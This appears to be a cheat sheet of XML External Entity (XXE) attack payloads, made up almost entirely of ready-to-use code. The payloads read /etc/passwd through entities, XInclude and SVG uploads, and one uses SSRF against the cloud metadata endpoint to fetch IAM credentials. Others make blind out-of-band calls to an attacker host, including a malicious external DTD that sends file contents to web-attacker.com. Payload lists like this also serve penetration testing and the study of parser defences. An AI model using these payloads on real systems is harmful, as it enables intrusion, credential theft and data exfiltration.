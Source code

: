### XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

### XXE to perform SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
### XXE using XInclude to retrieve files

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE trough SVG

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE via modified content type

Original:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Modified:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

### Blind XXE via Out-of-Band network

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

### Blind XXE with out-of-band interaction via XML parameter entities

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```

### Blind XXE using malicious external DTD

Malicious DTD:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate; 
```

Trigger vulnerability:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]> 
```

